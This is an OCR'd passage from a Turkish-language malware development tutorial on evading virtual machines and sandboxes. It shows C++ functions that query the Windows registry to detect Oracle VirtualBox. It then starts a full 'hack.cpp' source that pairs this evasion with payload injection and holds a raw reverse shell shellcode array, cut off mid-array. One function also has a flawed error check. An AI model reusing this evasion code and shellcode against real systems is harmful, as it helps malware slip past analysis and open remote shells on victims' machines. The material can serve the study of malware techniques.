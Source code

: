 Gördüğünüz gibi, sadece registry anahtarının mevcut olup olmadığını kontrol ediyorum.Eğer varsa `TRUE` döndürür. Eğer yoksa `FALSE` döndürür.    

### 2. belirtilen registry anahtarının değer içeriğini kontrol etme

Örneğin, şu mantıkla:    

```cpp
int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* 
regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}
```

Bu fonksiyonun mantığı da oldukça basittir. `RegQueryValueExA` kullanarak registry anahtarının değerini kontrol ederiz. `RegOpenKeyExA` fonksiyonunun sonucunu ilk parametre olarak kullanırız.    

Ben sadece `Oracle VirtualBox`'ı ele alacağım.Diğer sanal makineler (VM) ve sandboxlar için de mantık aynıdır.    

### pratik örnek

Şimdi, pratik bir örneği ele alalım. Tam kaynak koduna bakalım:    

```cpp
/*
* hack.cpp
* classic payload injection with 
VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
```